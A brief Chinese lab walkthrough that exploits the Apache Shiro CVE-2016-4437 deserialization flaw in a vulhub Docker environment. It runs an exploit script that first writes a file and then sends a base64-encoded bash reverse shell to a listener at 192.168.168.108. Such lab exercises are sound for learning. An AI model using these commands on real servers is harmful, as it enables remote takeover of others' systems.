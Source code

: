 # Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)写文件

Apache Shiro是一款开源安全框架，提供身份验证、授权、加密和企业会话管理等功能。Shiro 框架直观、易用,同时拥有足够的安全性。

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub
docker-compose build
docker-compose up -d
```



```
git clone https://github.com/insightglacier/Shiro_exploit.git
cd Shiro_exploit
python shiro_exploit.py -t 3 -u http://10.0.0.202:8080 -p "touch /tmp/123321"
```

反弹shell

```
http://www.jackson-t.ca/runtime-exec-payloads.html
```



```
 python shiro_exploit.py -t 3 -u http://10.0.0.202:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4xMDgvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"
```

```
 ncat -l 1234
```

```
docker-compose down 关闭环境
```

